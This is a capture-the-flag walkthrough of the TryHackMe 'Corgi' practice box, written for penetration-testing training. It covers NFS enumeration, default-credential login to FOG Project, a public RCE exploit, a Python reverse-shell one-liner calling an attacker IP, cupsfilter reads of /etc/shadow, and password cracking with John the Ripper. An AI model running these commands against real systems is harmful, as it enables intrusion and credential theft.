# Corgi
Try this OSCP level practice box by JSON SEC at https://tryhackme.com/room/corgi

## nmap TCP scan
The first thing we do on any vulnerable box is a nmap scan.

`nmap -sS -sC -p- <TARGET-IP>`


## NFS
From this scan we can see that nfs is installed on the server, let's use `showmount` to see if there are any shares we can mount to our system.

looks like there are two shares we can mount, let's mount one of them and have a look around

## FOG Project
After looking around we found this fog file, after some quick google searching we will find documentation for something called 'FOG project'



And going to `<TARGET-IP>/fog` takes us to a login page



Now that we have a login page we need some credentials. before we try anything else let's try and find some default creds on google.



Lucky for us these default credentials worked and we are now logged in to the FOG dashboard

## RCE Exploit
Now that we have access to a dashboard let's have a look on exploit.db to see if there are any known exploits for the version of FOG that is installed.



Lucky Break, there is a RCE exploit here https://www.exploit-db.com/exploits/49811



Let's try and use this RCE exploit and test to see if we can run commands on the server before we try and gain access through a remote shell.




Running the hostname command to test if file upload worked

## Reverse Shell & Privilege Escalation
Now that we have RCE let's get our reverse shell up and running

`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`


And stabilise the shell



now that we have a working and stable reverse shell, we need to be able to read the /etc/shadow and /etc/passwd files.
First let's find out what binaries we have access to with `find`

`find / -perm /4000 2>/dev/null`



We can see here that the account we are using can already use the sudo command. But because we dont have the password for the current user account, we need to find a way to read the /etc/shadow and /etc/passwd files so we can find either a password for the account we are using, or a password for another user.

After having a search on https://gtfobins.github.io/, we found that the cupsfilter binary has a File read vulnerability, and we can use this to read the /etc/shadow and /etc/passwd files

`cupsfilter -i application/octet-stream -m application/octet-stream /etc/passwd`


`cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`


Let's copy the contents of the files onto our host computer, then use unshadow and johntheripper to get the passwords

`unshadow passwd.txt shadow.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt`

So now we have a login, let's `su` into the new user and see what permissions they have.



It looks like they can run any command, let's try to get into the root account and find the user and root hashes


